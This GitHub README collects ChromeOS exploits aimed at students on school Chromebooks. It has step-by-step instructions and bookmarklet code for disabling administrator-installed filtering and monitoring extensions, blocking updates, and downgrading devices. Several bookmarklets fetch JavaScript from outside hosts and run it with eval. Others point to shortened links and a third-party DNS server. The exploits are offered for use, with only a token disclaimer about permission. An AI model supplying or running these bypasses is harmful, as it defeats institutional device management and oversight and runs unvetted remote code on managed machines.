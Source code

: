 # EXT-REMOVER
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destory your computer if used inproperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/3kh0/ext-remover/discussions">here</a>
  
**ATTENTION ALL SYS ADMINS!!!**

Hello, I am Echo and I created this repo in order to give exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of wack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan
<details>
<summary><b> Extension Launcher(Bookmarklet) </summary>
A bookmarklet capable of installing extensions, for those without a allowlist. 

Steps: 
Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a dns)
go to chrome.google.com/webstorex and use the bookmarklet, then put the icon of the extension, the id, and name of it (Doesn't matter just put anything)
press download, and it will work.
**Extra Notes**
- Credit to "Aka, but nice" on discord.
- Dns will be up soon, if bookmarklets are blocked
- This will not work if you have a blocklist this is only for if when you go to the webstore it shows blocked
</details>
<details>
<summary><b>New Point-Blank</b> (Run scripts on extension pages)</summary>
This exploit allows you to run scripts, on extensions pages, this is a great example of how Chromebooks are a piece of garbage.

*Scroll down to preform this exploit!*


<i>Getting started</i>
(Note: if bookmarklets are blocked your screwed.)
  1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> (on your school chromebook of course)
2. Make a bookmark with the code there.
3. Once that is done.
  If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by chrome, reload(you have to actually have securly ofc)
 If you have iBoss go to <a href="https://tinyurl.com/goofboss">here</a>, 
 
 If you have Cisco Umbrella go to <a href="https://tinyurl.com/goofumbrella">here</a>
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a> 
 And if you have GoGuardian(might not work) go to <a href="https://tinyurl.com/goofguardian">here</a>. Now most of these links are a block page(this is intentional) on each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript being ran on it, so running your own code may not work.
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by me, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b>CAUB</b> (Prevent Updates)</summary>
This exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

*Scroll down to preform this exploit!*

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifis that you've connected to in the past.
3. Click the + sign next to the wifi name of each network that you commonly connect your chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox bshelow.
8. Press the "generate onc" button below the textbox.
9. Once you have downloaded the file, go to chrome://network#general
10. Click on the "import onc" button
11. Import the newly downloaded file

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you are on a wifi that you used caub on)
- Be careful not to stay on a wifi for too long without using caub on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b>LTBEEF</b> (Disable extensions)</summary>
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.  

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
The origional site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>
  
**Instlation**  
There are several vesions of thisexploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  
    -Compact Cow's UI (Dark)
    ```js
    javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
    ```

    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers"
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    Set every box there to the following ip:  
    ```158.101.114.159``` (Hosted by The Greatest Giant#0110)  
    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. 


Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>  

<details>
<summary><b>LTBEEF inspect</b> (Using inspect to disable extensions)</summary>

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on 108.0.5359.75 (Official Build) (64-bit) on the stable channel.

This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

- Open this URL on your chromebook: `chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json` Shortened link: https://tinyurl.com/i-ltbeef
- Open inspect and navigate to the console tab.
- Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```
Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the chrome web listing for the extension and click on the banner.
</details>

<details>
<summary><b>Point Blank</b> (Run code on system pages)</summary>
Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page.  
This exploit was also found by Bypassi, you can read more about how he discovered this exploit <a href="https://blog.bypassi.com/_/point-blank/"></a>

1. Bookmark this code:
```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```
2. Navigate to `chrome://extensions` 
3. Click on a extension that YOU installed from the Chrome Web Store > Details
4. In the URL bar, copy the string of letters and numbers after the `/?id=`
5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet
5. Paste the id of the extension into the prompt. 
If you close the tab, the exploit will stop working.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>

<details>
<summary><b>SH1mmer</b></summary>  
SH1mmer is an exploit devloped by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

[Official Repository](https://github.com/CoolElectronics/sh1mmer)  
[Official Website (INSTRUCTIONS)](https://sh1mmer.me/)  
[Raw Shims Download](https://files.ultimatesrv.com/)  
[Wax4Web Shim Builder](https://build.ultimatesrv.com/)
</details>

<details>
<summary><b>Downgrading</b> (Change versions)</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for sertain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4gb of storage, some board have small or bigger images, so have a beef usb, I recommend 16gb
2. A personal computer with access to downloading extentions
3. A brain

<i>Setup</i>
1. Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)  
<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">  
2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board
3. Find and download the chrome version you want to your personal computer

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en</a>
2. Open the extention, and click on the settings button in to top right hand corner, click "use local image"
3. Select the recovery image you downloaded from chrome100
4. Plug in the USB you wish to use, and follow the prompts on the screen
5. On your chromebook, press esc+reload+power and follow the prompts
6. On the checking for updates screen, press ctrl+shift+e to skip the "checking for updates" screen
7. Profit

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>
  
<details>
  <summary><b>Killcurly</b></summary>
Kill extension, by signing out.

1. Visit chrome://settings/signOut the O in Out must be capital.
2. Press the blue button
3. Go to chrome://restart
4. Now visit tinyurl.com/AddSession
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, Youtube, and any Google   service.
6. All extensions should stop working.
7. Note that you have to repeat this every time you restart or sign out.
  
  **Using this, may get your computer taken away if your school finds out.** 
**This was discoverered by zoroark**
Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>


boop
